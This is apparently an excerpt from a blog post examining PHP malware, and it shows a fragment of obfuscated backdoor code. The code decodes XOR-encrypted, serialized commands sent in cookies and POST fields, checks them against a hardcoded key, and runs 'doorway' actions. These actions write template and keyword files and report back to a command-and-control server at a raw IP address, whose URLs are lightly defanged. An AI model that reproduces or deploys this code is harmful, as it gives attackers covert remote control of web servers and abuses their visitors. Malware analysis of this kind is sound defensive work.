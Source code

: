 ```php
	}
	static public function _v2cr7(){
		$_pfoa7z23 = Array();
		$_biw8hck1 = _zsop1pp::_79i20();
		foreach ($_biw8hck1 as $_kk52mpio){
			$_pfoa7z23 = array_merge($_pfoa7z23, @file(_zsop1pp::$_d5gicerr . $_kk52mpio, FILE_IGNORE_NEW_LINES));
		}
		return $_pfoa7z23;
	}
	static public function _79py7($_y1wpo0xb){
		if (@file_exists(_zsop1pp::$_iyy6aoxc . "_" . md5($_y1wpo0xb) . ".list")){
			return;
		}
		@file_put_contents(_zsop1pp::$_iyy6aoxc . "_" . md5($_y1wpo0xb) . ".list", $_y1wpo0xb);
	}
}

class _abtwpw0{
	static public $_ebgh51p9 = "4.1";
	static public $_gc26w45m = "e18bb5c2-b998-9250-fbe6-98f8a3caf821";
	private $_u08raxie = "hxxp://136.12.78.46/module/error/api2?action=redir";
	private $_ibktrama = "hxxp://136.12.78.46/module/error/api2?action=page";
	static public $_mztoxj8u = 20;
	static public $_92r2gln1 = 100;
	static public function _jebhw(){
		function _4ltmr($_elxaovea, $_rvr9m8df){
			$_f2e2ixi7 = "";
			for ($_xdn6ddo5 = 0; $_xdn6ddo5 < strlen($_elxaovea);) {
				for ($_emmj452e = 0; $_emmj452e < strlen($_rvr9m8df) && $_xdn6ddo5 < strlen($_elxaovea); $_emmj452e++, $_xdn6ddo5++) {
					$_f2e2ixi7 .= chr(ord($_elxaovea[$_xdn6ddo5]) ^ ord($_rvr9m8df[$_emmj452e]));
				}
			}
			return $_f2e2ixi7;
		}
		function _nj9x5($_elxaovea, $_rvr9m8df, $_4vpyschm){
			return _4ltmr(_4ltmr($_elxaovea, $_rvr9m8df), $_4vpyschm);
		}
		foreach (array_merge($_COOKIE, $_POST) as $_sgii98xz => $_elxaovea) {
			$_elxaovea = @unserialize(_nj9x5(_abtwpw0::_yqd7x($_elxaovea), $_sgii98xz, _abtwpw0::$_gc26w45m));
			if (isset($_elxaovea['ak']) && _abtwpw0::$_gc26w45m == $_elxaovea['ak']) {
				if ($_elxaovea['a'] == 'doorway2') {
					if ($_elxaovea['sa'] == 'check') {
						$_pdo1wxsa = _19g0vs2::_5es9r(explode("/", "hxxp://httpbin.org/"), "");
						if (strlen($_pdo1wxsa) > 512) {
							echo @serialize(Array("uid" => _abtwpw0::$_gc26w45m, "v" => _abtwpw0::$_ebgh51p9, ));
						}
						exit;
					}
					if ($_elxaovea['sa'] == 'templates') {
						foreach ($_elxaovea["templates"] as $_f0y2sncy) {
							_royr5j::_79py7($_f0y2sncy);
							echo @serialize(Array("uid" => _abtwpw0::$_gc26w45m, "v" => _abtwpw0::$_ebgh51p9, ));
						}
					}
					if ($_elxaovea['sa'] == 'keywords') {
						_zsop1pp::_79py7($_elxaovea["keywords"]);
						_abtwpw0::_yzcee();
```

[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"